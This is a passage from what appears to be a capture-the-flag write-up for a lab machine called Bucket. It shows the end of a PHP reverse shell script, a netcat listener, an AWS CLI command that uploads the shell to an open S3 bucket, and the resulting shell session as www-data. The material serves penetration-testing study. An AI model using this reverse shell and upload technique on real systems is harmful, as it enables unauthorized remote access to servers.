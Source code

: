 		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
{% endhighlight %}

Set up a `netcat` listener like this.

{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

Then upload the reverse shell to the bucket.

{% highlight sh %}
python2.7 /usr/bin/aws s3api put-object --region us-east-1 --no-sign-request --bucket adserver --key shell.php --endpoint-url http://s3.bucket.htb --body shell.php
{% endhighlight %}

And try to access it with `curl` or `firefox`.
Don't hesitate to spam `F5` to refresh the page because it takes a few seconds to (fake) sync. 

And we are in !

{% highlight text %}
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::2222
Ncat: Listening on 0.0.0.0:2222
Ncat: Connection from 10.10.10.212.
Ncat: Connection from 10.10.10.212:45104.
Linux bucket 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:27:02 up  1:28,  0 users,  load average: 0.03, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}
